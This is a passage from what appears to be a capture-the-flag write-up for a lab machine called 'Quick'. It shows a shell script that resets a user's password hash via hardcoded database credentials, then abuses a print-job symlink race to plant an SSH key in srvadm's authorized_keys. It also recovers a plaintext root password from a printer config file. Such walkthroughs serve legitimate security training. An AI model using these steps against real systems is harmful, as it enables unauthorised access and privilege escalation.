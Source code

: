 Then we can call this script with a validated session ID, and a urlencoded SSH public key:

```shell-session
sam@quick:/var/www/printer$ ~/ex.sh ohbmpgbik89261er6joj7rg8ic ssh%2Drsa%20AAAAB3NzaC1yc2EAAAADAQABAAABgQDIxJfGA7%2F0W9izQKEb87wTkKw3Ko83AIjcDw%2BScukapOKIYZ%2FN16ApuuC3TeFuSBrWtiIY1ZY7b35pnXsYg9zju6bb%2Fv3Qz9EBAdepxE9yjJY6yzylCUjm%2Fm%2B2vUKdnMYYMfwCmaL9EgJfXsvom6x1oZ%2BdIjykB57PyoX53P0hZ%2B1Irz3IY5xqc8einuP0X%2F50vuT42XnqRQSvCLAar2E6LPWfUc0l4GoN7lhM7l8eZ6v9Qn0Rj%2FpDLDIxf4UL4o3FdLSiV4is%2F4G1SHe5i0IUWtRmW%2BUR3h%2Bxi5Ujh7L7Xhxr99WacvIg6SydVRndBh2fC3zZKTobZDwPNR43R9MI8hSFclPo2t4kKgFn5ywd16qUDD2B%2BUtKUt%2Famotpgq8TVRVaTjICbVrJA1TEmEDO%2BNV1zo%2B6Ym5%2BHJEd8E%2Blg%2FkuhP2%2BLNJ7e39SaNDzc7coL%2F0ZCxQieu6tteVcNotUlUBGRhJo2T4vPjIGX4IydWkjcPg6WFFG%2FWUhANYMSnc%3D
```

If everything went well we should be able to ssh into the `srvadm` user. Let's script our way back in, in case we need to do it again:

```bash
#!/bin/sh

mysql -h localhost -u db_adm -pdb_p4ss quick -e "Update users set password='0c0ba48811bed85e3093bc71c6037891' where email='srvadm@quick.htb';" 2>/dev/null
sess=$(curl -v 'http://localhost/index.php' -H "Host: printerv2.quick.htb" --data 'email=srvadm%40quick.htb&password=password' 2>&1 | grep PHPSESSID | sed 's/.*PHPSESSID=//' | sed 's/;.*//')
filename=$(php -r "echo date('Y-m-d_H:i:s');")
ln -s /home/srvadm/.ssh/authorized_keys "${filename}"
curl 'http://localhost/job.php' -H 'Host: printerv2.quick.htb' -H "Cookie: PHPSESSID=${sess}" --data 'title=Port+8081&desc=ssh%2Drsa%20AAAAB3NzaC1yc2EAAAADAQABAAABgQDIxJfGA7%2F0W9izQKEb87wTkKw3Ko83AIjcDw%2BScukapOKIYZ%2FN16ApuuC3TeFuSBrWtiIY1ZY7b35pnXsYg9zju6bb%2Fv3Qz9EBAdepxE9yjJY6yzylCUjm%2Fm%2B2vUKdnMYYMfwCmaL9EgJfXsvom6x1oZ%2BdIjykB57PyoX53P0hZ%2B1Irz3IY5xqc8einuP0X%2F50vuT42XnqRQSvCLAar2E6LPWfUc0l4GoN7lhM7l8eZ6v9Qn0Rj%2FpDLDIxf4UL4o3FdLSiV4is%2F4G1SHe5i0IUWtRmW%2BUR3h%2Bxi5Ujh7L7Xhxr99WacvIg6SydVRndBh2fC3zZKTobZDwPNR43R9MI8hSFclPo2t4kKgFn5ywd16qUDD2B%2BUtKUt%2Famotpgq8TVRVaTjICbVrJA1TEmEDO%2BNV1zo%2B6Ym5%2BHJEd8E%2Blg%2FkuhP2%2BLNJ7e39SaNDzc7coL%2F0ZCxQieu6tteVcNotUlUBGRhJo2T4vPjIGX4IydWkjcPg6WFFG%2FWUhANYMSnc%3D&submit=yup' & > /dev/null 2>&1
```

## Enum as srvadm and owning root

The usual enum isn't showing much, and we've already seen most of what's available from the other user account. Let's find stuff that `srvadm` has access to that `sam` might not

```shell-session
srvadm@quick:~$ find / -user srvadm 2>/dev/null | grep -v /proc | grep -v /sys
/home/srvadm
/home/srvadm/.cache
/home/srvadm/.cache/conf.d
/home/srvadm/.cache/conf.d/printers.conf
/home/srvadm/.cache/conf.d/cupsd.conf
/home/srvadm/.cache/logs
/home/srvadm/.cache/logs/debug.log
/home/srvadm/.cache/logs/error.log
/home/srvadm/.cache/logs/cups.log
/home/srvadm/.cache/packages
/home/srvadm/.cache/motd.legal-displayed
...
```

Looking in `/home/srvadm/.cache/conf.d/printers.conf` we find a line `DeviceURI https://srvadm%40quick.htb:%26ftQ4K3SGde8%3F@printerv3.quick.htb/printer`. The
password in this URL decodes to `&ftQ4K3SGde8?` which is the root password.
